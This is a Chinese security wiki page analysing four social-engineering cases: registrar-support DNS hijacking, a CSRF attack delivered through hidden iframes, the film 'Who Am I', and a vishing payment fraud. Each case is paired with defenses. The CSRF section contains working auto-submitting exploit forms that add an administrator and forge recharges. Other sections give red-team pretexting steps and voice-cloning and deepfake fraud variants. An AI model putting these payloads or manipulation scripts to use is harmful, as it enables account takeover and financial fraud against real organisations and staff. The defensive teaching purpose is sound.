



## 概述

本页面沉淀四起典型社会工程学实战案例，覆盖**服务提供商人员操纵**、**目标组织内部人员操纵**、**影视化教学案例**与**语音钓鱼财务欺诈**四大攻击面：

1. **域名注册商客服社会工程学攻击**（2018 年实战）：攻击者利用 WHOIS 公开信息，注册相似邮箱伪造域名持有者身份，通过话术诱导客服绕过身份验证修改 DNS 解析记录，实现域名劫持。该案例暴露域名服务商身份核验流程的系统性缺陷。
2. **CSRF + Iframe 无感载荷投递**（2023 年实战）：攻击者发现目标后台 CSRF 漏洞，通过长期心理建模（套近乎、编造宏大业务场景）骗取开发者信任，诱导其在合法应用中嵌入攻击者控制的“社工库”页面，利用隐藏 iframe 自动提交恶意表单，实现管理员无感添加账号、伪造充值。
3. **电影《我是谁》社会工程学案例分析**（教学案例）：德国电影《我是谁：没有绝对安全的系统》完整演示了从技术漏洞利用到人性弱点攻击的完整社会工程学攻击链，涵盖权威伪装、同情心利用、自负心理攻击、母性本能诱导等经典手法，深刻揭示“人类才是最大的安全漏洞”这一核心命题。
4. **语音钓鱼冒充合作方财务变更账户**（202X 年实战，来源：301在路上微信归档）：攻击者入侵合作方系统获取商务往来情报，冒充合作方商务经理致电财务人员，谎称收款账户变更，诱导财务在付款系统中修改账号，导致 100 万元汇款打入攻击者账户。该案例典型体现了“情报侦察 + 身份冒充 + 紧迫感施压 + 权限滥用”的 Vishing 攻击链。

四类攻击均体现了**技术漏洞与人心弱点的组合拳**打法：前者利用服务商运营流程漏洞与客服安全意识薄弱；第二利用应用层 CSRF 缺陷与开发者贪利/信任心理；第三系统性展示社会工程学攻击全生命周期；第四利用企业间信任关系、财务流程验证缺失与员工安全意识不足。均具有极强隐蔽性、低技术门槛、高成功率特征。

> 宏观视角可关联 [[supply-chain-attack-fundamentals]] 中“软件供应链攻击”向量：通过受信任开发者植入恶意代码至合法分发渠道；亦可关联 [[threat-attribution-tracing-techniques]] 中钓鱼邮件分析与攻击者 ID 画像溯源方法论。

---

## 攻击案例一：域名注册商客服社会工程学劫持（2018 实战）

### 攻击背景与影响

某公司网站运维人员（小王）发现公司官网被挂黑页，经排查 Web 程序、服务器均无异常，最终定位为**域名解析 IP 被恶意篡改**。域名注册商（国内知名厂商“美橙互联”）承认系客服被社会工程学攻击，误将解析权限交予攻击者。公司通过协商获得两年续费赔偿，但品牌形象、运维信任度受损。

### 攻击链全景



### 核心技术拆解

#### 情报收集：WHOIS 信息泄露攻击面

攻击者通过 WHOIS 查询获取两大关键信息：
- **域名注册商**：美橙互联（直接锁定攻击目标服务商）
- **注册邮箱**：`admin@target.com`（作为身份伪造基准）

> WHOIS 隐私保护缺失是根因。同类信息收集技术详见 [[iot-reconnaissance-information-gathering]] 中资产测绘与归属分析方法论。

#### 身份伪造：相似邮箱注册

攻击者注册极度相似邮箱：`admin@target.com.cn` 或 `admin@target.net` 等，利用视觉相似度欺骗客服。工单提交时填写该邮箱作为联系方式，配合域名名称，构造“合法持有者”人设。

#### 话术博弈：绕过客服身份核验

攻击者与客服对话关键节点（还原自聊天记录截图）：

| 轮次 | 攻击者话术 | 客服响应 | 安全缺陷 |
|------|------------|----------|----------|
| 1 | 提交工单：域名 `target.com` 需修改解析，联系邮箱 `admin@target.com.cn` | 客服未核对邮箱与 WHOIS 记录是否一致 | **未比对注册邮箱** |
| 2 | 客服要求提供域名管理密码或安全问题 | 攻击者称“忘记密码、安全问题也忘了” | **无降级验证强度控制** |
| 3 | 攻击者施压：“急用、马上上线、耽误业务” | 客服让步：只需提供域名、联系邮箱、要解析的 IP 即可 | **社会工程学压力测试通过** |
| 4 | 攻击者提供恶意 IP，客服直接后台修改 | 解析生效，域名劫持完成 | **关键操作无二次确认/审批** |

> 客服话术抗压能力训练可参考 [[redteam-hw-opsec-guidelines]] 中“蜜罐识别心态建设”反向应用。

#### 根因复盘：域名商运营流程系统性缺陷

| 缺陷层面 | 具体表现 | 风险等级 |
|----------|----------|----------|
| **身份核验** | 仅凭域名+联系邮箱即可修改解析，不核对 WHOIS 注册邮箱、不要求管理密码/安全问题/实名认证资料 | 致命 |
| **权限控制** | 客服后台拥有直接修改 DNS 记录权限，无审批流、无操作日志留存供事后审计 | 高危 |
| **人员意识** | 客服无社会工程学攻击识别培训，面对“急用、业务压力”话术即放宽标准 | 高危 |
| **事后响应** | 事发后仅承认错误、赔偿续费，未公开整改措施、未通知其他受影响用户 | 中危 |

### 检测与防御体系（针对域名劫持场景）

#### 域名持有者侧硬化措施

| 措施 | 实施要点 | 关联技术 |
|------|----------|----------|
| **选择高安全等级注册商** | 优选新网、GoDaddy 等提供专属客服、严格核验流程的厂商 | — |
| **启用域名锁定** | 开启 `ClientTransferProhibited`、`ClientUpdateProhibited` 等锁定状态，防止未授权转移/修改 | — |
| **WHOIS 隐私保护** | 开启隐私保护服务，隐藏注册邮箱、电话等敏感信息 | [[vulnerability-mining-recon-aiqicha-fofa]] 侧写防御 |
| **强密码+MFA** | 注册商账号、注册邮箱均使用高强度密码+双因子认证 | [[cookie-security-fundamentals]] 认证加固 |
| **监控解析变更** | 使用 DNSPod、Cloudflare 监控或自建脚本定时查询 NS/A 记录，变更即时告警 | [[threat-attribution-tracing-techniques]] 流量回溯思想迁移 |

#### 域名服务商侧运营加固（供厂商参考）

| 措施 | 技术实现 | 合规依据 |
|------|----------|----------|
| **多因子身份核验** | 修改解析需同时满足：管理密码+安全问题+注册邮箱验证码+实名认证资料比对 | 《网络安全法》第 24 条实名制要求 |
| **关键操作审批流** | 客服发起修改 → 主管审批 → 系统执行，全链路留存操作日志、录屏 | ISO 27001 访问控制 |
| **客服反社工培训** | 定期模拟“忘记密码急用”、“冒充老板/公安”话术演练，考核通过率 | 《关键信息基础设施安全保护条例》人员安全 |
| **异常操作风控** | 同一域名短期内多次修改解析、修改指向高风险 IP/地区、非常用时间段操作 → 触发人工复核 | [[named-pipe-smb-detection-sysmon]] 异常行为基线思想 |

---

## 攻击案例二：CSRF + Iframe 无感载荷投递（2023 实战）

> 以下内容整合自原页面核心技术拆解，保留完整攻击链建模与防御体系。

### 攻击链全景

```mermaid
graph LR
A[漏洞挖掘: 发现后台 CSRF] --> B[情报收集: 确认开发者身份/维护多站点]
B --> C[心理建模: 构造"数据合作/业务扩展"宏大叙事]
C --> D[社工话术: 多轮套近乎 -> 建立信任 -> 抛出嵌入需求]
D --> E[载荷准备: 社工库页面内嵌 CSRF POC + iframe 自动提交]
E --> F[诱导嵌入: 开发者将恶意页面以 iframe/组件形式接入合法后台]
F --> G[等待触发: 管理员访问含嵌入页的功能模块]
G --> H[无感执行: iframe 静默提交表单 -> 添加管理员/伪造充值]
H --> I[权限落地: 拿到后台权限 -> 横向渗透/数据窃取]
```

### 核心技术拆解

#### 漏洞前置条件：后台关键功能缺失 CSRF 防护

| 接口 | 功能 | 请求方式 | 防护缺失 |
|------|------|----------|----------|
| `/Qwadmin/Peiwanmember/update.html` | 添加/修改管理员 | POST | 无 Token、无 Referer 校验 |
| `/Qwadmin/Peiwanmember/chongzhi.html` | 会员充值 | POST | 无 Token、无 Referer 校验 |

> 同类 CSRF 利用实战可参考 [[xd-security-csrf-ssrf-rce-notes-day29-30]] 中 Pikachu 靶场 GET/POST 型 CSRF 复现与 Token 绕过技巧。

#### 心理战术与话术设计：从“套近乎”到“宏大套路”

| 阶段 | 话术目标 | 关键心理杠杆 | 实战要点 |
|------|----------|--------------|----------|
| **破冰套近乎** | 建立熟人感、降低戒备 | 共同兴趣（歪歪玩家）、身份认同（“自己人”） | 多轮闲聊、展示“忠实用户”人设、主动暴露“充值记录”造真实感 |
| **需求植入** | 制造“刚需”假象 | 互利共赢、商业扩展、数据变现 | 抛出“购买数据/合作运营”宏大叙事，暗示高利润、低风险 |
| **技术方案锚定** | 将恶意嵌入包装为“标准接入” | 权威性（自称有现成系统）、便捷性（只需嵌入 iframe） | 提供“现成社工库页面”，强调“无需改代码、只需一行 iframe” |
| **信任收割** | 逼迫对方主动部署 | 沉没成本（对方已投入时间/精力）、面子工程 | 制造“空间已买、数据已备、就差你嵌入”的紧迫感 |

> 社工话术设计方法论可延伸参考 [[osint-social-engineering-scam-investigation-case-study]] 中针对诈骗团伙的心理画像与溯源分析。

#### CSRF POC 构造：自动化表单提交与隐蔽参数

```html
<!-- tianjia.html: 添加管理员 -->
<form name="myfrom" action="https://target.com/Qwadmin/Peiwanmember/update.html" method="POST">
  <input name="user" value="ooo">
  <input name="password" value="123123">
  <input name="group_id" value="1">
  <input name="action" value="add">
</form>
<script>
function sub(){ document.myfrom.submit(); }
setTimeout(sub, 100);
</script>
```

```html
<!-- chongzhiyy.html: 伪造充值 -->
<form name="myfrom" action="https://target.com/Qwadmin/Peiwanmember/chongzhi.html" method="POST">
  <input name="aids" value="12345">
  <input name="numchong" value="300">
  <input name="cinfo" value="202304162200141234567890">
  <input name="action" value="chongzhi">
</form>
<script>
function sub(){ document.myfrom.submit(); }
setTimeout(sub, 100);
</script>
```

**关键技术点**：
- `setTimeout(sub, 100)`：延迟提交规避浏览器 `onload` 直接提交拦截
- `document.myfrom.submit()`：兼容性佳的表单提交方式
- 参数伪造策略：固定弱口令、最高权限组 ID、真实会员 ID（前期遍历获取）、合理金额、伪造支付宝流水号

#### Iframe 无感载荷投递：隐蔽提交与页面隔离

```html
<!-- 攻击者控制的“社工库”主页面 -->
<iframe src="tianjia.html" style="display:none;"></iframe>
<iframe src="chongzhiyy.html" style="display:none;"></iframe>
```

| 层级 | 角色 | 行为 |
|------|------|------|
| **顶层页面** | 合法后台功能页（开发者嵌入的“社工库”容器） | 正常渲染业务 UI，用户无感知 |
| **第一层 iframe** | 攻击者“社工库”主页 | 表面展示“数据查询”界面，实则加载两个隐藏子 iframe |
| **第二层 iframe (隐藏)** | `tianjia.html` / `chongzhiyy.html` | 自动提交 CSRF 表单，**跳转仅发生在 iframe 内部**，不影响顶层页面 |

**关键属性与绕过点**：
- `style="display:none;"`：视觉完全不可见
- **同源策略限制**：表单提交不受同源策略限制，浏览器携带目标域 Cookie 发送请求
- **跳转隔离**：`target="_self"` 默认在 iframe 内跳转，顶层 `window.location` 不变
- **CSP/Frame-Ancestors 防御缺失**：目标后台未设置 `Content-Security-Policy: frame-ancestors 'self'` 或 `X-Frame-Options: DENY`

> iframe 攻击面与防御可关联 [[web-cache-poisoning-techniques]] 中缓存投毒链的 iframe 利用变种。

#### 载荷分级与持久化设计

| 层级 | 载荷形态 | 作用 | 生存周期 |
|------|----------|------|----------|
| **Stage 0** | 社工库主页（合法外衣） | 社工诱饵、加载隐藏 iframe | 长期，随开发者部署持久存在 |
| **Stage 1** | `tianjia.html` / `chongzhiyy.html` (隐藏 iframe) | 执行核心 CSRF 攻击 | 一次性触发即达成目标 |
| **Stage 2** | 新增管理员账号 / 伪造充值记录 | 权限落地、业务欺骗 | 永久（除非人工清理） |
| **Stage 3** | 后台持久化（WebShell/定时任务/影子账号） | 后渗透立足点 | 需后续手工植入 |

> 红队多级载荷投递体系可参考 [[cobalt-strike-external-c2-smb-beacon]] 中 Stager/Stage/Implant 分级设计思想。

---

## 攻击案例三：电影《我是谁》社会工程学案例分析与人性漏洞哲学思考

> 来源：微信公众号归档文章《我是谁：人性才是最大的漏洞》（约 2018-05-15），基于德国电影《我是谁：没有绝对安全的系统》的深度复盘。

### 影片基本信息

| 属性 | 详情 |
|------|------|
| **片名** | 《我是谁：没有绝对安全的系统》 |
| **原名** | Who Am I - No System Is Safe |
| **产地** | 德国 |
| **上映年份** | 2014 |
| **核心主题** | 社会工程学、身份认同、人性漏洞、黑客文化 |
| **教学价值** | 社会工程学入门级经典教学片，完整演示技术漏洞与人性弱点组合攻击链 |

### 剧情脉络与攻击链映射



### 核心社会工程学手法拆解

#### 权威伪装与信任建立

| 场景 | 手法 | 心理机制 | 现实映射 |
|------|------|----------|----------|
| 本杰明冒充维修人员进入服务器机房 | 着装伪装、自信话术、工具道具 | 权威偏见、制服效应、情境合理性 | 物理渗透测试中常见尾随、冒充维修/外卖/快递人员 |
| CLAY 成员冒充审计/安检人员进入目标大楼 | 团队配合、伪造证件、专业术语 | 群体从众、专业权威光环 | 红队实战中“物理社工”标准打法 |

#### 同情心与助人心理利用

| 场景 | 手法 | 心理机制 | 现实映射 |
|------|------|----------|----------|
| 本杰明利用保安大叔同情心（谎称生病/急事）获得协助 | 示弱、制造紧迫感、唤起同情 | 共情本能、助人奖赏机制、认知负荷下的启发式决策 | 电话社工中“家人出事急用钱”、物理渗透中“找不到门禁卡求放行” |
| 本杰明向汉娜警官展示脆弱一面争取证人保护 | 暴露创伤、渴望保护、建立情感连接 | 保护欲、母性本能、救世主情结 | 实战中攻击者伪造受害者身份骗取客服/管理员协助 |

#### 自负与认知盲区攻击

| 场景 | 手法 | 心理机制 | 现实映射 |
|------|------|----------|----------|
| MRX 轻视 CLAY 年轻黑客，拒绝接纳 | 傲慢、精英主义、低估对手 | 验证偏误、过度自信、群内偏见 | 红队针对高傲技术骨干/安全专家的“技术挑衅”诱导其降低防线 |
| 本杰明主动献上 BND 机密讨好 MRX | 投其所好、制造义务感、诱导反向信任 | 互惠原则、确认偏误、沉没成本 | 攻击者主动提供“高价值情报”建立可信度，实为诱饵 |

#### 母性本能与情感操纵

| 场景 | 手法 | 心理机制 | 现实映射 |
|------|------|----------|----------|
| 汉娜警官因无法生育对本杰明产生母性同情，放宽证人保护资格审核 | 情感投射、补偿心理、权威让步 | 情感启发式、认知失调消解、角色认同冲突 | 社工攻击中针对特定人群（单身母亲、有过创伤者）定制化话术 |

#### 信息控制与感知操纵

| 场景 | 手法 | 心理机制 | 现实映射 |
|------|------|----------|----------|
| 结局魔术：四块方糖变一块，揭示“每个人只看见他愿看见的” | 选择性信息投放、预设认知框架、事后合理化 | 确认偏误、盲点效应、叙事谬误 | 红队攻击报告/威胁情报中通过框架控制引导蓝队关注错误方向 |
| 本杰明精心布置线索误导汉娜调查方向 | 证据链构造、时间线操纵、人格碎片化表演 | 认知隧道、锚定效应、可得性启发式 | APT 组织伪旗行动、植入虚假归属特征 |

### 哲学深度：身份、自我与安全本体论

#### “我是谁”三重追问

| 维度 | 影片表达 | 安全启示 |
|------|----------|----------|
| **社会身份** | 姓名、职业、关系网络（本杰明/CLAY 成员/汉娜的证人） | 身份认证体系本质是“社会信任的技术投影”，可被社会工程学解构 |
| **心理身份** | 记忆、人格、情感体验（多重人格/单一破碎自我） | 行为分析/UEBA 的基础假设“用户行为模式稳定”在精心构造的社工面前失效 |
| **本体身份** | 观察者/体验者/选择者（魔术结局的觉醒者视角） | **安全的本质是认知对抗**：攻击者控制叙事，防御者陷入预设框架 |

#### 核心台词解读

> **“人不能总藏在他的计算机后面，最大的安全漏洞并不是存在于什么程序或者服务器内，人类才是最大的安全漏洞”**

| 解读层面 | 内容 |
|----------|------|
| **技术层** | 所有技术防护（防火墙、加密、沙箱、EDR）最终都由人配置、维护、决策，人的认知边界即安全边界 |
| **管理层** | 安全策略、审批流程、应急响应依赖人的执行力与判断力，流程僵化、人员疏忽是必然被利用的 |
| **哲学层** | 人性中的贪婪、恐惧、同情、自负、信任、懒惰是进化保留的生存机制，在现代安全语境下成为通用漏洞 |

> **“进步,远不在于改变,而在于那些不变的东西。——乔治·桑塔亚纳《理性的生活》”**

技术迭代再快（量子加密、AI 检测、零信任架构），**人性弱点的利用模式自特洛伊木马至今未变**。社会工程学防御的核心不是追赶技术，而是建立**认知免疫体系**。

### 特洛伊木马历史隐喻与现代映射

| 维度 | 特洛伊战争 | 电影《我是谁》 | 现代网络攻击 |
|------|------------|----------------|--------------|
| **诱饵** | 巨大木马（献给神的贡品） | BND 机密文件/本杰明的脆弱人设 | 免费工具/高薪招聘/合作提案/钓鱼邮件附件 |
| **信任锚点** | 西农的证词/希腊人撤退假象 | MRX 的傲慢/汉娜的母性/保安的同情 | 权威背书/熟人推荐/紧迫业务/合规要求 |
| **突破口** | 特洛伊人主动搬进城门 | 目标主动降低防线/主动提供协助 | 用户主动点击/客服主动绕过核验/开发者主动嵌入 iframe |
| **载荷** | 奥德修斯率兵杀出 | 多重人格反转/篡改证人保护/魔术误导 | 远控木马/凭据窃取/横向移动/持久化后门 |
| **本质** | **利用受害者的主观能动性完成自我毁灭** | **利用目标的心理需求完成自我暴露** | **利用人的认知捷径绕过技术防线** |

### 教学价值与实战迁移指引

#### 红队视角：攻击链设计方法论

| 步骤 | 电影对应 | 实战操作指引 |
|------|----------|--------------|
| **1. 目标画像** | 本杰明分析 MRX/保安/汉娜的心理档案 | 收集目标人员社交媒体、公开演讲、过往决策，建立心理模型 |
| **2. 切入点选择** | 保安同情心 < MRX 自负 < 汉娜母性 | 评估各人员心理脆弱度、接触难度、权限价值，选性价比最高切入点 |
| **3. 人设构造** | 维修工/受害者/忠实粉丝/破碎天才 | 设计可信度高、可持续、可控风险的虚假身份，准备佐证材料 |
| **4. 信任建立** | 多次接触、小恩小惠、情感共鸣 | 分阶段投喂价值（情报/工具/情感支持），建立“沉没成本”与“互惠义务” |
| **5. 关键动作诱导** | 请求开门/献上机密/申请保护/篡改系统 | 设计符合目标心理预期、技术门槛低、可否认性强的关键请求 |
| **6. 撤离与痕迹控制** | 魔术表演/消失/重塑叙事 | 清理接触痕迹、植入误导性证据、控制事后叙事框架 |

#### 蓝队视角：认知免疫体系建设

| 防御层 | 具体措施 | 关联现有页面 |
|--------|----------|--------------|
| **人员筛选与分级** | 敏感岗位心理韧性测评、定期轮岗、权限最小化 | [[security-engineer-recruitment-requirements]] 岗位画像参考 |
| **反社工专项培训** | 季度实战演练（电话/邮件/物理/即时通讯）、覆盖权威伪装/紧迫施压/情感操纵/利益诱惑四大话术族 | [[redteam-hw-opsec-guidelines]] 蜜罐识别心态建设迁移 |
| **流程刚性约束** | 关键操作（权限变更/资金支付/解析修改/数据导出）强制双人复核、系统强制流程、不可绕过审批 | [[named-pipe-smb-detection-sysmon]] 异常行为基线思想迁移至业务流程 |
| **技术兜底控制** | MFA 全覆盖、特权访问管理 (PAM)、零信任网络访问 (ZTNA)、数据防泄漏 (DLP)、用户行为分析 (UEBA) | [[cookie-security-fundamentals]] 认证加固、[[cobalt-strike-ssl-keystore-evasion]] 流量特征分析迁移 |
| **事后复盘与叙事对抗** | 建立攻击复盘机制、提取社工话术特征入库、模拟攻击者叙事框架进行压力测试 | [[threat-attribution-tracing-techniques]] 溯源方法论反向应用 |

---

## 攻击案例四：语音钓鱼冒充合作方财务变更账户导致百万损失（Vishing 实战案例）

> 来源：微信公众号「301在路上」归档文章《一通电话损失100万！你敢接？》，记录某外企财务人员遭遇语音钓鱼（Vishing）攻击，攻击者冒充合作方商务经理谎称收款账户变更，诱导财务修改付款系统账号，导致 100 万元汇款打入攻击者账户的完整实战复盘。

### 攻击背景与影响

- **受害组织**：A 外企（与 B 企业有稳定商务往来）
- **受害角色**：小丽，A 外企财务人员，负责付款系统操作
- **攻击者伪装身份**：B 企业商务经理“陈某”
- **攻击向量**：电话语音通话（Vishing，Voice Phishing）
- **核心欺骗话术**：因某些原因企业收款账户发生变动，请协助在付款系统中调整
- **损失金额**：100 万元人民币
- **后果**：资金无法追回，小丽引咎辞职，A 外企遭受严重经济与信誉损失，B 企业系统被入侵导致商务情报泄露

### 攻击链全景



### 核心技术拆解

#### 情报侦察：供应链侧写与横向情报获取

攻击者并非盲目拨打，而是通过**入侵合作方（B 企业）系统**获取高价值情报：

| 情报类别 | 具体内容 | 利用目的 |
|----------|----------|----------|
| **商务往来关系** | A 与 B 存在长期稳定合作、付款流程固定 | 确立攻击合理性，选择高信任度目标 |
| **经办人身份** | B 企业商务经理姓名“陈某” | 构造完美人设，通过姓名核对建立初步信任 |
| **财务联系方式** | A 外企财务人员（小丽）电话 | 精准定位攻击对象，避免无效尝试 |
| **付款流程细节** | 付款系统操作权限、账号变更流程 | 指导话术设计，确保诱导操作可落地 |

> 同类供应链侧写技术详见 [[vulnerability-mining-recon-aiqicha-fofa]] 中资产测绘、FOFA 语法、灯塔系统自动化收集方法论；亦可关联 [[threat-attribution-tracing-techniques]] 中 VPS 渗透溯源与攻击者 ID 画像碰撞思路。

#### 身份伪装：低成本高仿真人设构造

| 伪装要素 | 实施方式 | 可信度支撑 |
|----------|----------|------------|
| **姓名** | 直接使用真实商务经理姓名“陈某” | 文件、邮件、合同中均可核对，零成本验证 |
| **身份声称** | 自称“B 企业商务经理” | 业务关系天然合理，无需额外证明 |
| **场景构造** | “因某些原因账户变动” | 模糊理由避免细节追问，利用“内部事务”不便外人过问的心理 |
| **通讯渠道** | 电话语音（非即时通讯/邮件） | 语音实时交互难留存证据、难技术核验、利于情绪施压 |

#### 心理操纵：信任锚定 + 紧迫感 + 权威暗示

| 心理杠杆 | 话术体现 | 作用机制 |
|----------|----------|----------|
| **熟悉度/信任锚定** | “我是陈某”、“文件里不就是这个名字吗” | 利用已知真实信息（姓名）建立“我是自己人”认知捷径，绕过身份验证环节 |
| **紧迫感/业务压力** | “赶紧改完去吃饭”、“免得耽误业务” | 制造时间压力，抑制系统性思考（System 2），强制启动启发式决策（System 1） |
| **权威/合规暗示** | “正常业务流程”、“账户变更是常态” | 将恶意操作包装为标准运维动作，降低“违规”心理阈值 |
| **助人/配合心理** | “麻烦你帮忙调整一下” | 触发互惠本能与职业配合义务，尤其针对服务型角色（财务/客服/行政） |

#### 流程漏洞：财务变更无二次核实机制

| 流程节点 | 设计缺陷 | 风险后果 |
|----------|----------|----------|
| **身份验证** | 仅凭来电自报姓名、未回拨核实、未要求书面函证 | 身份伪装零成本通过 |
| **变更授权** | 财务人员单人即可在系统中修改供应商收款账号，无审批、无双人复核 | 单点失效导致资金流向被劫持 |
| **变更通知** | 系统修改后无自动通知对方供应商、无邮件/短信双向确认 | 变更生效隐蔽，事后难以及时发现 |
| **事后对账** | 半月才通过供应商催款发现异常，缺乏实时/日级对账机制 | 资金转移窗口期长，追回难度指数级上升 |

### 根因复盘：人-流程-技术三维缺失

| 维度 | 核心缺陷 | 映射攻击环节 |
|------|----------|--------------|
| **人（意识/能力）** | 财务人员缺乏 Vishing 识别训练，不懂“回拨核实”“书面确认”基本原则；安全意识培训流于形式 | 全链路：未识别伪装、未抵抗施压、未执行核实、未上报领导 |
| **流程（制度/控制）** | 供应商账户变更无标准化作业程序（SOP）：无强制回拨、无书面函证、无双人复核、无审批流、无变更通知、无异常监控 | 关键节点：身份验证缺失、变更授权过度集中、事后检测滞后 |
| **技术（系统/工具）** | 付款系统无关键字段变更审批工作流、无操作日志告警、无供应商账户指纹/历史版本对比、无 MFA 保护敏感操作 | 事中/事后：技术层面无拦截、无留痕、无感知 |

### 检测与防范清单（Vishing 财务欺诈专项）

#### 组织级硬性制度（必须落地）

| 编号 | 措施 | 执行标准 | 考核方式 |
|------|------|----------|----------|
| **VISH-001** | **供应商账户变更强制“三验制”** | 1. 回拨核实：使用合同/档案库固定电话回拨确认<br>2. 书面函证：要求供应商盖公章/财务章出具正式变更函<br>3. 双人复核：财务录入 + 主管/会计复核，系统留痕 | 内控审计抽查、模拟演练通过率 |
| **VISH-002** | **财务敏感操作 MFA + 审批工作流** | 付款系统修改收款账号、调整付款限额、新增供应商均需：短信/OTP/人脸二次认证 + 审批流走完方可生效 | 系统配置检查、渗透测试验证 |
| **VISH-003** | **变更即时通知与对账机制** | 账户变更成功后：系统自动发送邮件/短信/企业微信通知供应商财务确认；财务部每日/每周自动化对账，异常即时告警 | 监控大屏覆盖率、告警响应时效 |
| **VISH-004** | **来电身份核实 SOP 标准化** | 接到涉及账户/资金/权限变更的外部来电：<br>1. 记来电号码、姓名、事由<br>2. 告知“按流程需书面确认/回拨核实”<br>3. 挂断后按档案电话回拨<br>4. 无法核实者严禁操作、上报领导 | 话务录音抽检、红队电话社工演练 |
| **VISH-005** | **季度实战化反 Vishing 演练** | 红队模拟：冒充供应商/客户/领导/公检法/IT 运维等角色，覆盖电话、语音留言、来电显示伪造（Spoofing）等技术手段；纳入绩效考核 | 演练通过率、上报率、中招人员复训记录 |

#### 技术层兜底控制

| 措施 | 实现路径 | 关联技术页 |
|------|----------|------------|
| **付款系统关键字段变更审批流** | 工作流引擎：发起 → 部门主管审批 → 财务总监审批（大额） → 系统执行 → 审计日志入 SIEM | [[named-pipe-smb-detection-sysmon]] 审计日志思路迁移 |
| **供应商账户指纹库与变更对比** | 建立供应商账户历史版本库（账号、户名、开户行、修改时间、操作人），变更时自动比对、异常评分 | [[threat-attribution-tracing-techniques]] 行为基线思想 |
| **来电显示防伪造/标记** | 企业总机接入防伪造网关，标记外部来电、识别号码伪造特征（如网关号段异常、SIP 头篡改） | — |
| **财务专用终端/浏览器隔离** | 财务操作仅限受管终端/安全浏览器，禁用个人微信/钉钉/浏览器访问付款系统，降低恶意链接/文件椐入风险 | [[docker-container-security-fundamentals]] 容器隔离思想迁移 |
| **资金流向实时风控模型** | 引入规则引擎：首次付款新账户、大额异地、非工作时段、高风险地区账户 → 自动拦截/人工复核 | [[jumbo-internal-penetration-cheatsheet]] 异常检测规则参考 |

#### 人员级认知免疫（持续建设）

| 培训模块 | 核心内容 | 实战化形式 |
|----------|----------|------------|
| **Vishing 话术识别** | 权威冒充、紧迫施压、熟人伪装、利益诱惑、恐吓威胁、技术支持诈骗六大话术族特征与应对话术 | 录音案例复盘、角色扮演对抗 |
| **身份核实肌肉记忆** | “不信、不透露、不操作、先核实、再上报”五步法；回拨必须用档案库号码、不使用来电显示/对方提供号码 | 桌面推演、突击测试 |
| **财务流程合规红线** | 任何账户变更无书面函证不操作、无双人复核不生效、无领导知情不越权；违规零容忍 | 签署《财务安全红线承诺书》、违规案例通报 |
| **供应链安全协同** | 与核心供应商签署《账户变更联合确认协议》：双方指定确认人、固定确认渠道、变更需双向签章 | 供应商安全大会、联合演练 |

### 变体与延伸利用思路（Vishing 财务欺诈方向）

| 变体方向 | 核心改动 | 适用场景 | 难度 | 典型特征 |
|----------|----------|----------|------|----------|
| **来电显示伪造 + 语音合成** | 使用 SIP 网关/云通讯平台伪造来电显示为供应商真实号码；AI 语音克隆合成“陈某”声音实时对话 | 高价值目标、长期潜伏、需极高可信度 | 高 | 来电显示为真实号码、声音语调极似、可进行多轮复杂对话 |
| **深度伪造视频会议** | 邀请财务加入腾讯会议/Zoom/钉钉视频会议，AI 实时换脸/换声冒充供应商高管/财务总监 | 视频会议成常态化审批渠道的组织 | 高 | 视频画面为熟悉人脸、口型同步、背景为办公室环境 |
| **供应链投毒：篡改合同/邮件附件** | 入侵供应商邮箱/文档系统，篡改合同附件中的收款账号、联系电话；财务按“最新合同”操作 | 供应商系统防护薄弱、合同电子化归档 | 中 | 书面文件“证据确凿”、财务按合规流程操作实则中招 |
| **内部人员配合/胁迫** | 收买/胁迫供应商财务/IT 人员协助伪造变更函、配合回拨核实、提供系统访问权限 | 高价值目标、攻击者资源充足 | 中高 | 所有验证环节均“合规通过”、事后极难溯源 |
| **多渠道组合拳** | 邮件发送伪造变更函（含恶意宏/钓鱼链接）+ 电话跟进催促 + 即时通讯发送伪造截图/二维码 | 目标防护单一渠道、多渠道联动验证缺失 | 中 | 多渠道信息一致、形成“交叉验证”假象、极难识破 |
| **针对性定向攻击：并购/重组/年末结算/审计期** | 利用特殊时间节点业务繁忙、流程临时变更、人员心态焦虑等特点定制话术 | 特定时间窗口、成功率显著提升 | 低 | 话术极具时效性、针对性、利用“特殊时期特事特办”心理 |

---

## 统一检测与防御体系（跨四类攻击面）

### 代码/架构层硬化

| 措施 | 覆盖攻击面 | 实施建议 |
|------|------------|----------|
| **全站强制 CSRF Token** | 所有状态改变接口（POST/PUT/DELETE） | 同步双重提交模式、SameSite Cookie 属性设为 `Strict`/`Lax` |
| **关键操作二次验证** | 添加管理员、充值、权限变更、DNS 修改、**供应商账户变更** | 短信/邮箱/Google Authenticator 二次确认、操作审计日志入库 |
| **CSP `frame-ancestors 'self'`** | 禁止页面被外部 iframe 嵌入 | 所有后台页面统一输出 CSP 头，Nginx/应用层双重保障 |
| **`X-Frame-Options: DENY`** | 兼容旧浏览器防点击劫持 | 作为 CSP 降级补充 |
| **Referer/Origin 校验** | 防御跨域表单提交 | 关键接口校验 `Origin` 头为自有域名 |
| **域名修改多因子审批** | 注册商后台修改解析 | 管理密码+安全问题+注册邮箱验证码+实名资料比对四重核验 |
| **管理员/财务操作 IP 白名单/地理围栏** | 限制敏感操作来源 | 结合零信任网关实施 |
| **付款系统关键字段版本控制与变更审批工作流** | 供应商账户、付款限额、收款单位等核心字段 | 工作流引擎 + 审计日志 + SIEM 联动 |

### 运营/人员层防御

| 措施 | 针对攻击环节 | 落地形式 |
|------|--------------|----------|
| **第三方组件/页面接入审批制** | 开发者私自嵌入恶意页面 | 变更管理流程：安全评估 → 代码审查 → 灰度发布 |
| **供应商/开发者身份核实与最小权限** | 社工冒充/诱导合作 | 合同约定安全责任、账号分级、定期权限回收 |
| **客服/财务/行政反社会工程学培训** | 客服被话术绕过核验、财务被 Vishing 诱导变更账户 | 定期模拟“忘记密码急用”、“冒充老板/公安/供应商/客户”话术演练 |
